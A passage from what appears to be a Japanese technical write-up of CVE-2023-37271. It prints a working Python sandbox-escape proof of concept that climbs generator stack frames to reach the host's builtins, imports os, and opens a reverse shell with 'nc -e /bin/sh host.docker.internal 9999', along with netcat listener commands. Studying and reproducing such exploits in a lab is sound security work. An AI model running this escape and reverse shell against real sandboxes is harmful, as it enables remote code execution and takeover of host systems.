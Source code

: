 #### PoCコード

`example/cve_2023_37271.py` の中身を記載する。コメントを読み、上述の原理と照らし合わせてほしい。
Sandbox escapeが成功したあとは、ホストのグローバル環境のフレームから `import` ビルトイン関数を取得し、 `import os; os.system('任意コード')` 相当のことをしている。
「任意コード」部分は、dockerコンテナ内からホストへ通信するためのドメイン `host.docker.internal` を使って、ホストの9999番ポートにreverse-shellを張りに行っている。

```python
def run():
    # ジェネレーター関数
    def gen():
        yield 1

    # ジェネレーターオブジェクト作成
    g = gen()

    # スタックフレームを取得し、1個遡る
    g = (g.gi_frame.f_back for _ in [1])

    # 更に遡る（sandboxを超えてホストのフレームに至る）
    g = [f for f in g][0].f_back.f_back

    # ホストのフレームのビルトインから import を取得し、 `import os` 相当をする
    os_ = g.f_builtins["__import__"]("os")

    # os.system() で任意コード実行
    # ここではホストで待機しているreverse-shellに接続しに行く
    # ホスト側実行コマンド例
    #
    # ```bash
    # # Linux
    # nc -l -p 9999
    #
    # # MacOS
    # nc -nvl 9999
    # ```
    return os_.system("nc -e /bin/sh host.docker.internal 9999")
```

#### デモ動画とPoC実行手順

<iframe width="800" height="500" src="https://www.youtube.com/embed/JxJOSLlbG58?si=F-oklZwr-MaI9uH3" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

---

**コンテナ内でのコマンド**

```console
# Python実行サーバー起動（攻撃が再現するバージョンを指定）
./run-server.sh 6.0
```

---